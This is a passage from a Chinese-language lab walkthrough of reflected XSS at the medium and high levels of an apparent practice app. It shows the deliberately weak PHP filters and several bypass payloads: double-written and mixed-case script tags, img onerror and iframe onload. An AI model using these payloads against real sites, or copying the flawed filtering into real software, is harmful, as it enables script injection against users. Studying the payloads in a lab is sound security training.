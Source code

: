 可以看到这里只是过滤了`<script>`标签，这里用到了**str_replace()**函数，这里是吧这个标签替换为空（即删除），那么就有很多姿势了！

> str_replace() ：函数替换字符串中的一些字符（区分大小写）
>
> 把字符串 "Hello world!" 中的字符 "world" 替换成 "Peter"：
>
> ```php
> <?php
> echo str_replace("world","Peter","Hello world!");
> ?>
> ```

**payload1**：（双写）

```
<sc<script>ript>alert('2333')</script>
```

**payload2**：（大小写）

```
<Script>alert('2333')</script>
```

**payload3**：（替换img等其他标签）

```
<img src=1 onerror=alert(/2333/)>
```



##### 反射 XSS high

**源码**

```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    $html .= "<pre>Hello ${name}</pre>";
}
?>
```

这里采用都是正则表达式过滤，但我们依然可以替换为其他的标签来进行弹窗

**payload**

```
<img src=1 onerror=alert(/2333/)>
<iframe onload=alert(/2333/)>
```
